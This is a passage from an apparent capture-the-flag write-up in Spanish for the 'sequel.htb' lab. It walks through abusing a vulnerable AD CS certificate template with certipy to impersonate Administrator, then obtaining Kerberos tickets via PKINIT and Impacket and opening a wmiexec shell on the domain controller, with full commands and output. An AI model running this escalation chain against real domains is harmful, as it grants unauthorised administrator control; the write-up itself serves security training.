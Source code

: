 Herramientas automatizadas como Certify y Certipy nos marcan esta plantilla como vulnerable, creo que no hay que explicar el por qué ya que se ve en los permisos que tiene y su nombre.

Vamos a usar certipy para crear una petición de este certificado en nombre del usuario Administrador a ver si podemos usar el certificado que nos devuelva en el protocolo PKINIT de Kerberos. Primero debemos obtener el nombre del CA que los puedes hacer con certutil y luego simplemente colocar en el UPN del certificado el de Administrador

{% highlight bash %}
# UPN: User Principle Name
# CA: Certificate Authority o Autoridad de certificados
❯ certipy req -dc-ip 10.10.11.202 -u ryan.cooper@sequel.htb -p NuclearMosquito3 -template UserAuthentication -upn Administrator@sequel.htb -ca sequel-DC-CA
Certipy v4.5.1 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 13
[*] Got certificate with UPN 'Administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
{% endhighlight %}

Bueno, nos dejó sin problemas al igual que intentar autenticarnos con este certificado...

{% highlight bash %}
# Debemos sincronizar nuestro reloj con la hora del controlador de dominio ya que Kerberos no permite mucha diferencia en la hora al autenticarse.
❯ sudo ntpdate 10.10.11.202
20 Jun 02:58:49 ntpdate[46666]: step time server 10.10.11.202 offset +28792.352734 sec
❯ getTGTPKINIT.py -cert-pfx administrator.pfx -dc-ip dc.sequel.htb sequel.htb/Administrator a.ccache
2023-06-20 02:58:51,409 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-06-20 02:58:51,500 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-06-20 02:58:55,670 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-06-20 02:58:55,670 minikerberos INFO     3d686342186021ea5459b8efef6127429236adb66679ee211980537c960d6e85
INFO:minikerberos:3d686342186021ea5459b8efef6127429236adb66679ee211980537c960d6e85
2023-06-20 02:58:55,674 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
{% endhighlight %}

Ahora usando este TGT podemos simplemente pedir un TGS para el servicio SMB y tomar la última flag.

{% highlight bash %}
❯ export KRB5CCNAME=a.ccache
❯ getST.py -spn cifs/dc.sequel.htb -k -no-pass sequel.htb/Administrator
Impacket v0.10.1.dev1+20230616.115447.d1f16d8e - Copyright 2022 Fortra

[*] Getting ST for user
[*] Saving ticket in Administrator.ccache
❯ export KRB5CCNAME=Administrator.ccache
❯ wmiexec.py -no-pass -k sequel.htb/Administrator@dc.sequel.htb
Impacket v0.10.1.dev1+20230616.115447.d1f16d8e - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>cd Users